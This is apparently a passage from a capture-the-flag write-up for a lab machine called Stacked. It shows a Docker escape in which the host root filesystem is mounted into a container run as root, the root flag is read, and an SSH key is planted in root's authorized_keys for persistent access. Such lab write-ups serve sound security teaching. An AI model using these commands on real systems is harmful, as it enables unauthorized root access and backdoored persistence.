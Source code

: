
    bash-5.0# hostname
    1af67837dbde
    bash-5.0# docker exec -it 6eac05a5a430 bash
    bash-5.0# hostname
    6eac05a5a430
    bash-5.0# ls /mnt/
    bin         etc         lib64       mnt         run         sys
    boot        home        libx32      opt         sbin        tmp
    cdrom       lib         lost+found  proc        srv         usr
    dev         lib32       media       root        swap.img    var
    bash-5.0# cat /mnt/etc/hostname 
    stacked



I could actually use the Lambda containers, just overriding the entry
with `--entrypoint bash` (and no `-d` since the entry is what I want to
interact with):



    bash-5.0# docker run -v /:/mnt --entrypoint bash -it 22a4ada8399c 
    bash-4.2$ cat /mnt/etc/hostname 
    stacked



To access everything, I'll need to run that entry as root with
`-u root`:



    bash-5.0# docker run -v /:/mnt --entrypoint bash -u root -it 22a4ada8399c
    bash-4.2#



From here I can grab `root.txt`:



    bash-4.2# cat /mnt/root/root.txt
    bd97095c************************



### Shell

To get a root shell, I'll just write my public key into
`/mnt/root/.ssh/authorized_keys`:



    bash-4.2# echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > authorized_keys



Now I can SSH to Stacked:



    oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@stacked.htb
    ...[snip]...
    root@stacked:~# 
